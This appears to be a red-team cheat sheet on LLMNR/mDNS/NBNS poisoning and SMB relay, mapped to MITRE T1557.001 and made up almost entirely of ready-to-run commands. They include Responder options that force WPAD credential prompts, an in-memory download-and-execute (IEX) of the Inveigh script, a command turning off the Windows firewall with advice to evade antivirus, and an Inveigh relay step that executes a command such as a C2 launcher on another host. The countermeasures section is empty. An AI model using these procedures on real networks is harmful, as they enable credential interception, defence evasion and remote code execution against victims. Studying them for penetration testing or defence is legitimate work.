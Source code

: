 
# LLMNR/mDNS/NBNS poisonning and SMB relay

## Overview

MITRE ATT&CK mapping: [T1557.001](https://attack.mitre.org/beta/techniques/T1557/001/)

## Procedures

### Classic Responder LLMNR/mDNS/NBNS poisonning

```
# most lightweight version: poisonning + capturing requests only to SMB
Responder.py -I eth0 -f

# as aobove + acting as WPAD web proxy
Responder.py -I eth0 -wrf

# also forces users to provide their creds on WPAD
Responder.py -I eth0 -wfFbv
```

### PowerShell DNS/LLMNR/mDNS/NBNS poisonning

```
# details:
# https://github.com/Kevin-Robertson/Inveigh/
# https://github.com/Kevin-Robertson/Inveigh/wiki/Basics
Invoke-WebRequest -Uri https://github.com/Kevin-Robertson/Inveigh/archive/Inveigh-master.zip -OutFile Inveigh-master.zip

OR (how's this differnet?):

# downloading Inveigh in PowerShell and loading it into memory with:
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1")

# unzip (when .NET Framework 4.5 is available):
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression.FileSystem')
[System.IO.Compression.ZipFile]::ExtractToDirectory(".\Inveigh-master.zip", ".\Inveigh-master")

# source your PS scripts
cd .\Inveigh-master; cd .\Inveigh-master; . .\Inveigh.ps1

# turn off win firewall (also antivirus should be turned off or evaded):
netsh advfirewall set  allprofiles state off

# run in poisoning mode (Needs PS console with admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTPS Y -Proxy Y -FileOutput Y

# run in limited poisoning mode (no admin privs):
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -FileOutput Y

# to stop:
Stop-Inveigh
```

### Notes

NetNTLM creds relay (prereq: SMB signing needs to be turned off):

Check: `nmap --script smb-security-mode.nse -p445,139 192.168.12.0/24 --open`

With Inveigh (provides NTLMv1/NTLMv2 HTTP/HTTPS/Proxy to SMB2.1 relay):

```
# we don't launch listener on HTTP as Invoke-InveighRelay will listen on it
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -NBNS Y -LLMNR Y -mDNS Y -HTTP N

# Prepare command to execute (e.g. launcher for C2 Empire):
see below: Empire as C&C

# launch Relay (as cmd provide launcher command form Empire):
Invoke-InveighRelay -ConsoleOutput Y -StatusOutput N -Target <ip-to-relay-to> -Command <cmd-to-execute>
```

With Responder:

    https://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/

Other tools:

```
https://www.fox-it.com/en/insights/blogs/blog/inside-windows-network/
https://github.com/SecureAuthCorp/impacket
```

## Countermeasures and OPSEC considerations
